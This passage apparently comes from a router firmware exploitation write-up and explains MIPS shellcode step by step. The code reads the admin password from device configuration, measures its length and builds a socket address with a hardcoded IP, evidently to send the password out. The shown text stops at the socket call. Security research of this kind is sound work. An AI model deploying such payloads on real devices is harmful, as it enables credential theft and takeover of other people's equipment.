 Now we have tested the decoder and the fix shellcodes, we can move on to creating a larger payload.

### Breakdown

The input parameters are as follows:

| Register | Value |
| - | - |
| *$s0* | Address of *strlen* function |
| *$s1* | Address of *0x1010200* (config ID of admin password - refer to part 3) |
| *$s2* | Address we will use to store the admin password |
| *$s3* | Address of *socket* function |

- First, we call **config_get(0x1010200, buffer)**, remember the the instruction after **jalr** is taken before the jump takes place (thanks branch delay slot):

```
-mipsasm
lw $a0, ($s1);      /* s1 contains address of 0x1010200 */
lui $v0, 0x8000;
or $v0, 0x89e4;
jalr $v0;           /* config_get(0x1010200 (*0x80236c4c), pwd_buffer (0x801d3754)) */
move $a1, $s2;      /* s2 contains pwd buffer address */
```

- Next, call **strlen** on the buffer containing the admin password:

```
-mipsasm
jalr $s0;           /* len = strlen(pwd_buffer (0x801d3754)) */
move $a0, $s2;      /* s2 contains pwd buffer address */
```

- Store the length in *$s0*, and construct the *sockaddr* containing the port and IP we will use:

```
-mipsasm
move $s0, $v0;      /* v0 contains length of password */
/* create sockaddr stuff and put into t0 */
lui $v0, 0x800f;
or $v0, $v0, 0x9528;
lw $v0, ($v0);      /* load value of hardcoded_afinet into v0 */
lui $t0, 0x802a;
or $s1, $t0, 0xbf10;
sw $v0, ($s1);      /* save hardcoded_afinet value to address of sockaddr */
addiu $t0, $s1, 0x4;
lui $v0, 0x02bc;
or $v0, $v0, 0xa8c0;
sw $v0, ($t0);      /* save hardcoded IP address to sockaddr + 4 */
```

- Call **socket(2, 2, 0)** to create the socket and get the *sockfd*:

